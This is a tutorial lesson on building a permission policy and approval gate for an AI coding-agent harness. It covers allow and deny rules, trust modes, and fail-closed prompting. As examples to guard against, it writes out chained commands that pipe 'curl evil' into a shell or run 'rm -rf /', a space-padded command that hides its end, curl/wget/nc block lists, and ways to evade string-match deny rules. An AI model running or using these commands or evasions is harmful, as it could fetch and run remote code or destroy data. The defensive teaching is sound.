

# Day 20 — The Approval Gate and Permission Rules ⚠ heavier day

**Phase:** Week 4 — Power & context

## By tonight

```
> run the tests and show git status
  ⚙ bash {"command":"npm test"}
  allow bash {"command":"npm test"}? [y]es / [N]o / [a]lways this session a
  · ✓ 167 passing
  ⚙ bash {"command":"git status --short"}
  allow bash {"command":"git status --short"}? [y]es / [N]o / [a]lways this session y
  …
> run the tests again
  ⚙ bash {"command":"npm test"}            ← no question this time: "always" made a session rule
> /permissions mode read-only
  · mode read-only
> delete build/
  · ✗ Denied bash (read-only mode)
```

## Why it matters

A y/N prompt on every command is safe but tiring, and tired people press `y` without reading. That is exactly how harnesses get people hurt. Real harnesses (Claude Code, Codex CLI, Gemini CLI) all combine three things:
- **rules** that pre-approve the boring, safe things and block the dangerous ones;
- **modes** for different levels of trust;
- a **prompt** for everything in between.

Today you build that. Every decision **fails closed**: when in doubt, the answer is no.

## Concepts

### 1. Policy first, human second

**A policy answers before anyone is asked.** For every tool call, a `PermissionPolicy` returns one of three answers: `allow` (run it), `deny` (refuse, with a reason) or `ask` (let the human decide). Only `ask` reaches the prompt. The checks run in a fixed order, and the first one that applies wins:



Some calls walked through the flowchart, with `allow: ['bash(npm test*)', 'bash(git status)']` and `deny: ['bash(*curl*)', 'write(.git/*)']` (results from the reference policy):

| Call | Decision | Why |
|---|---|---|
| `read notes.txt` | allow | `read` doesn't need approval |
| `bash npm test -- --watch` | allow | the rule `bash(npm test*)` |
| `bash git status --short` | ask | `bash(git status)` has no `*`, so it matches only that exact command |
| `bash ls` | ask | no rule covers it |
| `write ./.git/config` | deny | `write(.git/*)`, after the path is normalized (concept 2) |

**Deny rules always win, even in `yolo`.** A deny like `bash(*curl*)` stops *accidents* and the obvious case. It is **not** an adversary-proof filter: `c\url`, `"cu"rl`, a `$(…)` subshell or plain `wget` all slip past a string match. The real defence is the approval prompt and not running untrusted input unattended (Day 27). Treat deny rules as guard-rails, not a sandbox.

### 2. Rules

**A rule names a tool, and optionally a pattern for its main argument.** `"read"` (the whole tool), `"bash(git status)"` (exact), `"bash(npm test*)"` (wildcard), `"mcp__notes__*"` (tool-name wildcard). The pattern matches the tool's **main argument**: `bash`'s command, the `path` for file tools, the JSON arguments otherwise. Without a `*`, a rule is **exact**, so `bash(git status)` does *not* match `git status; curl evil | sh`.

**A pattern becomes an anchored regular expression.** `*` means "any run of characters", every other character means itself, and `^…$` makes the pattern cover the *whole* argument:

```js
globToRegExp('npm test*')          // → /^npm test.*$/s
globToRegExp('a.b(c)')             // → /^a\.b\(c\)$/s   escaped: they match literally
```

Without the anchors, `bash(npm test)` would match any command that *contains* `npm test`.

**Two ways a match can be fooled, and how the rules close them:**
- **Chaining.** `bash(npm test*)` looks safe, but `npm test; curl … | sh` starts with `npm test`. So a **wildcard** `bash` allow rule never matches a command containing a shell operator (`;` `&&` `||` `|` `` ` `` `$(` `>` `<` or a newline): those fall through to a question. Exact rules still match exactly, and **deny** rules are not narrowed (a deny should catch as much as it can).
- **Path spelling.** `write(.git/*)` must also stop `./.git/x`, `src/../.git/x` and an absolute path to the same file. So a path argument is **normalized against the workspace root** (like the jail, Day 10) before it is matched.

With only `allow: ['bash(npm test*)']`, the reference policy decides:

```
npm test -- --watch            allow
npm test; curl … | sh          ask     a shell operator: a human decides
npm test > out.txt             ask
npm test && npm run deploy     ask
```

And with the workspace at `/work/app`, the paths `./.git/config`, `src/../.git/config` and `/work/app/.git/config` all normalize to `.git/config` before matching, so `write(.git/*)` denies every one of them.

### 3. Modes

**A mode sets the default for everything the rules don't decide.** Pick it once, for how much you trust the situation:

| Mode | needsApproval tools | other tools |
|---|---|---|
| `default` | ask | run |
| `read-only` | **deny** (unless `readOnly`) | **deny** unless `readOnly` |
| `accept-edits` | `write`/`edit` run; `bash` asks | run |
| `yolo` (`--auto-approve`) | run | run |

Deny rules apply in every mode. `read-only` is the mode for exploring a repository you don't trust (Day 27).

The same four calls in each mode, with `deny: ['bash(*curl*)']` (from the reference policy):

```
mode            read     write    bash ls   bash curl
default         allow    ask      ask       deny
read-only       allow    deny     deny      deny
accept-edits    allow    allow    ask       deny
yolo            allow    allow    allow     deny
```

The last column is the same everywhere: that's "deny always wins".

### 4. Request/response over a fire-and-forget bus

**The gate needs an answer, and the bus can't carry one.** Day 14's `emit` can't return an answer, so the gate builds request/response on top of it:

1. It emits `tool_approval_request { id, name, arguments }`, stores the promise's resolver in `pending: Map<id, resolver>`, and waits.
2. The UI asks the question and emits `tool_approval_result { id, approved, remember? }`.
3. The gate's listener looks up the resolver for that `id` and calls it.

A *resolver* is the `resolve` function of a promise, kept for later: whoever calls it, whenever they do, settles that promise. The core of the pattern is a few lines:

```js
const pending = new Map();                                    // id → resolve function
bus.on('tool_approval_result', ({ id, approved }) => pending.get(id)?.({ approved }));

function askHuman(call) {
  return new Promise((resolve) => {
    pending.set(call.id, resolve);                            // the answer will arrive later, by id
    bus.emit('tool_approval_request', { id: call.id, name: call.name, arguments: call.arguments });
  });
}
```

The `id` is what makes this safe: two questions can be outstanding, and each answer finds its own promise.

Each pending promise resolves **exactly once**, on one of four paths:
- **answer** from the UI;
- **timeout** after 120 s → deny;
- **abort** (Ctrl+C) → deny;
- **non-interactive** → deny immediately, with no question asked.

On timeout and abort, the gate itself emits `tool_approval_result { approved: false }`, so the UI closes its open question. `finally`-style cleanup removes the map entry, the timer and the abort listener.

What the model then reads: a timeout gives `User denied bash (no answer within 120 s)`. Nobody answered, so it counts as the user's "no", like Ctrl+C. A non-interactive refusal is the policy's, so it reads `Denied bash (needs approval but nobody can answer (non-interactive) — use --auto-approve or an allow rule)`.

C programmers: this is a per-id condition variable. Python: one `asyncio.Future` per id.

### 5. "Always" means this session, exactly

**`a` adds the narrowest rule that covers this call.** Answering `a` adds a **session rule**, scoped as narrowly as the call allows: the exact command for `bash` (`bash(npm test)`), the exact **path** for `write`/`edit` (`write(src/app.js)`, so "always" means *this file*, not every file), the tool name for anything else. The prompt says what it will cover (`↳ always allowing write to this path this session`). It is never written to disk; persistent rules belong in *your* global settings (Day 26), never in a repo.

| Call | Session rule added | The prompt says it covers |
|---|---|---|
| `bash npm test` | `bash(npm test)` | this exact command |
| `write ./src/app.js` | `write(src/app.js)` | write to this path |
| `mcp__notes__search {…}` | `mcp__notes__search` | every mcp__notes__search call |

Note the rule for `bash` has no `*`. "Always" for `npm test` doesn't quietly become "always for anything starting with `npm test`".

### 6. Fail closed in non-interactive mode

**When nobody can answer, the answer is no.** `-p` (Day 26) and evals (Day 29) have nobody to ask, so `ask` becomes **deny**, with a reason that tells you how to opt in (`--auto-approve` or an allow rule). It's tempting to auto-approve in print mode "because hanging is worse". Mainstream harnesses do the opposite: a script that silently runs whatever the model wants is how a headless agent does damage.

## Build

### 20.1 `src/agent/permissions.js` — Core

```js
export const PERMISSION_MODES = ['default', 'read-only', 'accept-edits', 'yolo'];
export class PermissionPolicy {
  constructor({ mode = 'default', allow = [], deny = [] }) { … }   // validate rules early
  setMode(mode) { … }
  addSessionRule(rule) { … }
  describe() { … }
  // → { decision: 'allow'|'deny'|'ask', reason? }, in the order of concept 1
  decide(call, tool) { … }
}
export function parseRule(rule) { … }
export function primaryArgument(call) { … }
export function ruleMatches(rule, call) { … }
export function globToRegExp(glob) { … }
export function suggestRule(call) { … }
```

Hint for `globToRegExp`: split on `*`, regex-escape each piece, join with `.*`, and anchor with `^…$`. Use the `s` flag so `*` also matches newlines in multi-line commands.

`decide` is concept 1's flowchart as a list of `if`s, where the first that applies returns: a deny rule; read-only and not `readOnly`; no approval needed; an allow or session rule (skipping wildcard `bash` rules for chained commands); `yolo`; `accept-edits` for `write`/`edit`; otherwise `ask`. Validating rules in the constructor turns a typo in your settings into an error at startup, not a rule that silently never matches.

### 20.2 `src/agent/approval-gate.js` — Core

```js
// → { approve, pending }
export function createApprovalGate({ bus, policy, interactive = true, timeoutMs = 120_000 }) { … }
export function attachApprovalPrompt({ bus, ui }) { … }   // the UI half; returns an unsubscribe
```

`attachApprovalPrompt` keeps a `Map<id, AbortController>`. On a request it calls `ui.ask('allow … [y]es / [N]o / [a]lways this session ', { signal })`. When a result for that id arrives first (timeout or abort), it aborts its own question. Anything other than `y`/`yes`/`a`/`always` counts as **no**.

The question shows the **whole** request, however long. Never shorten what someone is approving: a command cut off at 200 characters can hide its end, as in `ls` followed by 300 spaces and then `; curl evil | sh`.

Inside `approve`, all four exits go through one small `finish(result)` function guarded by a `settled` flag. `finish` deletes the map entry, clears the timer and removes the abort listener, then resolves. The timeout and the abort also announce `tool_approval_result { approved: false }` before resolving, so the UI's open question closes.

### 20.3 Wire it — Core

- `AgentLoop` gets `gateAllTools`: when it is true, *every* call goes through `approve`, so read-only mode and deny rules cover tools that never ask.
- `createApp({ permissions: { mode, allow, deny }, interactive = true, approvalTimeoutMs = 120_000 })` builds a `PermissionPolicy`, then `createApprovalGate`, then (if interactive) `attachApprovalPrompt`, and passes `approve: gate.approve, gateAllTools: true` to the loop. Day 15's inline y/N approver goes away.
- Wording: a human "no", a timeout or an abort gives `User denied <name>`; a policy refusal gives `Denied <name> (<reason>)`. The gate marks its own refusals (deny rules, modes, non-interactive) with `by: 'policy'`, and the loop picks the wording from that field (Day 12), never from the reason's text.
- Add `/permissions [mode <m> | allow <rule> | deny <rule>]`, which shows or changes the policy for this session.

### 20.4 Course tests — Core

Copy `course-tests/day-20/`. It covers:
- rule parsing and matching, including **exact means exact**;
- a wildcard `bash` allow rule refusing a chained/redirected command (deny rules still catch it);
- path rules matching the **normalized** path, so `.`/`..`/absolute respellings can't dodge them;
- all four modes; deny beating allow and yolo;
- the gate's four exits, "always" becoming a session rule (path-scoped for write/edit), cleanup;
- the loop's wording; read-only blocking a no-approval tool;
- the real prompt over in-memory streams: a timeout that closes the question, a long command shown in full, and the "always" scope announced.

### 20.5 Live — Core

Approve once with `y`, once with `a` (check that it doesn't ask again), and deny once (watch the model adapt). Then `/permissions mode read-only` and ask it to delete something. Add a "Day 20: permissions" section to `notes/tool-security.md`: what rules and modes protect, and what they don't (an allowed command can still be harmful, and a sloppy `*` allows too much). Commit `day-20: approval gate + permissions`.

### 20.6 Sandbox-aware rules — Stretch

Add a `network: false` setting that makes the policy deny any `bash` command containing `curl`, `wget`, `nc`, `ssh` or `scp`. Then write down why this is **weak**: `python -c "import urllib…"` gets around it. Real network isolation needs an OS sandbox (Day 11 stretch, and the post-course track).

## Check

- [ ] `node --test tests/course/day20-*` green (18 tests)
- [ ] Live: y, a (no second question), N, read-only denial
- [ ] `notes/tool-security.md` "Day 20" section
- [ ] Commit `day-20: approval gate + permissions`

Solution: `src/agent/permissions.js`, `src/agent/approval-gate.js` and the wiring in `src/app.js` in [`solutions/checkpoint-3/`](solutions/checkpoint-3/).

## Stuck?

<details><summary>The promise never resolves after Ctrl+C</summary>

Every exit path must call the same `finish(result)`: the UI's answer, the timer, and the signal's `abort` listener. Guard it with a `settled` flag so it runs once.
</details>

<details><summary>After a timeout, my next chat line is eaten as an approval answer</summary>

The UI's question is still open. On `tool_approval_result` for an id you're asking about, abort that `ui.ask` with its `AbortController`.
</details>

<details><summary><code>bash(npm test)</code> also matches <code>npm test && rm -rf /</code></summary>

Your regex isn't anchored. Use `^…$`.
</details>

<details><summary><code>TypeError: unknown permission mode 'readonly'</code></summary>

The mode names use a hyphen: `default`, `read-only`, `accept-edits`, `yolo`. The error lists them.
</details>

<details><summary><code>TypeError: invalid permission rule: bash git status</code></summary>

A rule's pattern goes in parentheses after the tool name: `bash(git status)`. Without them, the whole string is read as a tool name, and tool names can't contain spaces.
</details>

## Common mistakes

- Treating allow as stronger than deny.
- A wildcard allow rule (`bash(git *)`) that silently pre-approves `git status; curl … | sh`.
- Matching a path rule against the raw argument, so `./x` or `a/../x` slips past `deny(x)`.
- Trusting a deny rule as a sandbox: it stops accidents, not a determined command.
- Making "always" a prefix match, scoping a write "always" to every file, or saving it to disk.
- Auto-approving in non-interactive mode.

## Self-check

1. Why can't `emit()`'s return value carry the user's answer, and what do you build instead?
2. List the four ways a pending approval resolves.
3. Why must deny rules win even in `yolo` mode?
4. Why does `-p` mode fail closed instead of auto-approving?

Answers: [self-check-answers.md](self-check-answers.md#day-20).

## Further reading

- Claude Code docs, [permissions](https://code.claude.com/docs/en/permissions) and [sandboxing](https://code.claude.com/docs/en/sandboxing): one production design for rules, modes and sandboxes
- OpenAI Codex, [sandbox and approvals](https://developers.openai.com/codex/security): another
- Simon Willison, [The lethal trifecta](https://simonwillison.net/2025/Jun/16/the-lethal-trifecta/): why approval alone isn't enough
- Wikipedia, [Principle of least privilege](https://en.wikipedia.org/wiki/Principle_of_least_privilege): the idea behind narrow rules and a narrow "always"

---
← [Day 19](day-19.md) · [Curriculum home](README.md) · Next: [Day 21 — A second provider](day-21.md) →
